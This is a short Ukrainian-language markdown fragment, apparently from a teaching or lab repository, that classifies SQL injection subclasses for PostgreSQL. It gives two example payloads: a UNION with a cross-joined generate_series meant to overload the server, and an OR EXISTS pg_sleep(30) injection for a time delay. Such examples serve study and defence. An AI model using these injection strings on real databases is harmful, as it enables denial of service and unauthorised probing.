


### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>


### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
